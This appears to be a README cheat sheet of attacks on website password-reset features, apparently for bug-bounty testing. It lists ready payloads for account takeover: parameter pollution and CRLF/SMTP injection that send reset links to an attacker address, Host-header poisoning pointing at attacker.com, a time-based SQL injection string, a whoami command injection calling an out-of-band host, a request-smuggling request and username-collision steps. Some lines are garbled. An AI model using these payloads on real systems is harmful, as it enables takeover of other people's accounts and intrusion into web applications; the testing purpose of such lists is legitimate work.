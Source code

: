 # Testing-forget-Password-

1. Host Header Injection - Password Reset Poisoning
2. HPP:
email=v@g.com&email=a@g.com
email[]=v@g.com&email[]=a@g.com
email=v@g.com%20email=a@g.com
email=v@g.com|email=a@g.com
email=v@g.com,a@g.com
email=v@g.com%20a@g.com
{"email":"v@g.com","email":"a@g.com"}
{"email":["v@g.com","a@g.com"]}
3. IDOR
4. Broken Crypto
5. Password reset token Leakage via referral header
6. Token leakage in response/JS files.
7. Session/Token is not expiring after password reset.
8. Add only space in password.
9. Ask for 2 password reset links and try the older one
10. SMTP Injection: v@g.com%0d%0aCC%3aa@g.com%0d%0a
11. Use paramminer to discover additional parameters(or append previously known parameters) in the request. Now try IDOR.
12. Try:
POST https://attacker(.)com/resetpassword.php HTTP/1.1
POST 
@attacker
.com/resetpassword.php HTTP/1.1
POST :
@attacker
.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
13. SQLi: test@test.com'+(select*from(select(sleep(2)))a)+'
14. Append a .json after the endpoint.
15. CRLF: /resetpassword?%0d%0aHost:%20attacker(.)com
16. Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("tuhin1729 ", " tuhin1729 " etc). Try a password reset for your account. Use the token to reset victim's password. Ex: CVE-2020-7245
17. DoS
18. If they are sending an otp for password reset, try 2fa bypass techniques.
19. During registration, use homograph in email. Now try password reset.
20. Change the request method and content-type and observer how the application is responding.
22. Try XSS, SSTI etc in the email field.
23. Try Command injection by email=hello@`whoami`.xyz.burpcollaborator.net
24. 2FA auto disabled after password reset.
25. User Enumeration
26. Check whether any param value is reflecting in the email. Now try HTMLi.


Password Reset Token Leak Via Referrer
Request password reset to your email address
Click on the password reset link
Don’t change password
Click any 3rd party websites(eg: Facebook, twitter)
Intercept the request in Burp Suite proxy
Check if the referer header is leaking password reset token.
Account Takeover Through Password Reset Poisoning
Intercept the password reset request in Burp Suite
Add or edit the following headers in Burp Suite : Host: attacker.com, X-Forwarded-Host: attacker.com
Forward the request with the modified header
http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com
Look for a password reset URL based on the host header like : https://attacker.com/reset-password.php?token=TOKEN
Password Reset Via Email Parameter
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
IDOR on API Parameters
Attacker have to login with their account and go to the Change password feature.
Start the Burp Suite and Intercept the request
Send it to the repeater tab and edit the parameters : User ID/email
powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})
Weak Password Reset Token
The password reset token should be randomly generated and unique every time.
Try to determine if the token expire or if it’s always the same, in some cases the generation algorithm is weak and can be guessed. The following variables might be used by the algorithm.

Timestamp
UserID
Email of User
Firstname and Lastname
Date of Birth
Cryptography
Number only
Small token sequence ( characters between [A-Z,a-z,0-9])
Token reuse
Token expiration date
Leaking Password Reset Token
Trigger a password reset request using the API/UI for a specific email e.g: test@mail.com
Inspect the server response and check for resetToken
Then use the token in an URL like https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]
Password Reset Via Username Collision
Register on the system with a username identical to the victim’s username, but with white spaces inserted before and/or after the username. e.g: "admin "
Request a password reset with your malicious username.
Use the token sent to your email and reset the victim password.
Connect to the victim account with the new password.
The platform CTFd was vulnerable to this attack.
See: CVE-2020-7245

Account Takeover Via Cross Site Scripting
Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : *.domain.com
Leak the current sessions cookie
Authenticate as the user using the cookie
Account Takeover Via HTTP Request Smuggling
Refer to HTTP Request Smuggling vulnerability page.
1. Use smuggler to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)
powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h
2. Craft a request which will overwrite the POST / HTTP/1.1 with the following data:
powershell GET http://something.burpcollaborator.net HTTP/1.1 X:
3. Final request could look like the following
“`powershell
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83

0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone reports exploiting this bug
* https://hackerone.com/reports/737140
* https://hackerone.com/reports/771666

Account Takeover via CSRF
Create a payload for the CSRF, e.g: “HTML form with auto submit for a password change”
Send the payload
Account Takeover via JWT
JSON Web Token might be used to authenticate an user.

Edit the JWT with another User ID / Email
Check for weak JWT signature
